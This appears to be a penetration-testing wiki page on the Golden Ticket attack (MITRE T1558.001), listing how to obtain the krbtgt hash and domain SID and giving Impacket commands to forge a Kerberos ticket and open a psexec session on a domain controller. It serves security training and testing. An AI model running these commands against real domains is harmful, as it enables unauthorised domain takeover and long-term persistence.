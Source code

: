 ```yaml
---
description: MITRE ATT&CK, Credential Access, Technique T1558.001
---
```


# Forge Golden Ticket

A Golden Ticket attack is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Tickets. A golden ticket will allow you to persist in an environment almost indefinitely.

### Prerequisites for creating a Golden Ticket:

1. The NT hash of the `krbtgt` account. This can be obtained from running `secretsdump.py` on the Domain Controller.
2. Domain SID. This can be obtained by using `LookupSID.py` on the Domain Controller.
3. Domain name. This can be gathered by querying it on the Domain Controller or will have been gathered throughout the penetration test.
4. Username to impersonate. This should be a valid user on the domain.

### Creating a Golden Ticket on Linux with Impacket

1\. Use ticket.py to customize, sign, and save the ticket:

```bash
ticketer.py -nthash [NTHASH] -domain-sid [SID] -domain [DOMAIN] [USER]
```

2\. Export the ticket:

```bash
export KRB5CCNAME=[USER.CCACHE]
```

3\. Authenticate with the created ticket to the domain controller:

```bash
psexec.py [DOMAIN]/[USER]@[HOST] -k -no-pass -dc-ip [DOMAINCONTROLLER]
```

### References

{% embed url="https://www.qomplx.com/qomplx-knowledge-golden-ticket-attacks-explained" %}

{% embed url="https://yojimbosecurity.ninja/golden-ticket-with-impacket" %}
